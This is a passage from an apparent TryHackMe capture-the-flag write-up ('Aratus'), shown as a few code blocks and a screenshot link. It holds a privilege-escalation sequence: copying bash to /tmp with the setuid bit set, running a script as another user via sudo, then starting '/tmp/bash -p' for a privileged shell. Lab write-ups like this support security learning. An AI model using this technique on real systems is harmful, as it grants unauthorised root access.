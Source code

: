 ```sh
!#/bin/sh
cp /bin/bash /tmp/bash ; chmod +s /tmp/bash
```

```bash
chmod +x test.sh
```

# flag2 
```bash
sudo -u automation /opt/scripts/infra_as_code.sh
```

```bash
/tmp/bash -p
```
![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510141320.png)

